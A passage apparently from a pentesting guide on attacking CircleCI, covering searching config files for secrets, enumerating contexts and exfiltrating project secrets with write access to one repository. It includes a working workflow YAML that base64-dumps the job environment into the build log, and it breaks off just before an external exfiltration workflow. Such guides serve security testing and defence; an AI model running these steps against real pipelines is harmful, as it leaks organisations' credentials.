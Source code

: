 > [!TIP]
> However, note that a different group (instead of All members) can be **selected to only give access to the secrets to specific people**.\
> This is currently one of the best ways to **increase the security of the secrets**, to not allow everybody to access them but just some people.

### Attacks

#### Search Clear Text Secrets

If you have **access to the VCS** (like github) check the file `.circleci/config.yml` of **each repo on each branch** and **search** for potential **clear text secrets** stored in there.

#### Secret Env Vars & Context enumeration

Checking the code you can find **all the secrets names** that are being **used** in each `.circleci/config.yml` file. You can also get the **context names** from those files or check them in the web console: _https://app.circleci.com/settings/organization/github/\<org_name>/contexts_.

#### Exfiltrate Project secrets

> [!WARNING]
> In order to **exfiltrate ALL** the project and context **SECRETS** you **just** need to have **WRITE** access to **just 1 repo** in the whole github org (_and your account must have access to the contexts but by default everyone can access every context_).

> [!CAUTION]
> The "**Import Variables**" functionality allows to **import variables from other projects** to this one. Therefore, an attacker could **import all the project variables from all the repos** and then **exfiltrate all of them together**.

All the project secrets always are set in the env of the jobs, so just calling env and obfuscating it in base64 will exfiltrate the secrets in the **workflows web log console**:

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "env | base64"

workflows:
  exfil-env-workflow:
    jobs:
      - exfil-env
```

If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **create a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:
